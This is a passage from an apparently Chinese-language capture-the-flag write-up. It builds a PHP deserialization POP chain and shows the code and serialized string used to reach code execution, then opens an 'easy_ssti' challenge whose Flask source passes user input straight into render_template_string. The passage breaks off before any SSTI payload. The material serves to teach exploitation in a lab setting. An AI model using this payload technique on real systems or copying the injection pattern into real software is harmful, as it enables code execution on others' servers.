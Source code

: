 得到 get= `fe1ka1ele1efp`

然后我们根据`cycycycy->aaa()`可以反推出一条pop链：

```php
w_wuw_w->destruct()  =>  gBoBg->toString()  =>  w_wuw_w->__invoke()
=>  EeE->__clone()  =>  cycycycy->aaa()
```

于是我们如下构造：

```php
<?php
class gBoBg{
    public $name;
    public $file;
    public $coos;

}

class w_wuw_w{
    public $aaa;
    public $key;
    public $file;

}
$w = new w_wuw_w();
$g = new gBoBg();
$w->aaa = $g;
$g->file = "abc";
$g->coos = $w;
echo serialize($w);

输出：
O:7:"w_wuw_w":3:{s:3:"aaa";O:5:"gBoBg":3:{s:4:"name";N;s:4:"file";s:3:"abc";s:4:"coos";r:1;}s:3:"key";N;s:4:"file";N;}
```

然后我们传参进行代码执行即可：

![image-20230408171121787](https://raw.githubusercontent.com/leekosss/photoBed/master/202304081711847.png)







#### easy_ssti            

打开后查看源码，提示`app.zip`，于是我们下载下来，得到源码：

app.py

```python
from flask import Flask
from flask import render_template_string,render_template
app = Flask(__name__)

@app.route('/hello/')
def hello(name=None):
    return render_template('hello.html',name=name)
@app.route('/hello/<name>')
def hellodear(name):
    if "ge" in name:
        return render_template_string('hello %s' % name)
    elif "f" not in name:
        return render_template_string('hello %s' % name)
    else:
        return 'Nonononon'
```